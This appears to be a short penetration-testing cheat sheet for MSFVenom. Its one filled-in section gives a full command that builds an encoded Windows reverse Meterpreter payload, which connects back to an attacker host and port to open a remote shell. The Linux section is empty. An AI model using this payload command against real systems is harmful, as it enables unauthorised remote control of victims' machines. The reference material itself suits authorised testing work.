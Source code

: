 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems.
## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Reverse Meterpreter
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.43 LPORT=666 -b '\x00' -e x86/shikata_ga_nai -i 3 > kssdajfh.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom
